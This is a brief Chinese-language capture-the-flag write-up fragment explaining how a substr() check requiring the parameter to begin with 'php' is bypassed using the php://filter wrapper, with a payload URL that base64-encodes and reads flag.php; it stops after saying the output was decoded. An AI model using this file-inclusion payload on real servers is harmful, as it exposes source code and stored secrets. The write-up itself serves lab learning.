 ![1744942486078](image/NSS/1744942486078.png)

substr（）函数要求传入get请求的代码前三位必须是php，所以我们想到利用php伪协议来构造

```
/?file=php://filter/read/convert.base64-encode/resource=flag.php
```

![1744942907266](image/NSS/1744942907266.png)

进入发现有base64编码，进行解码后得到
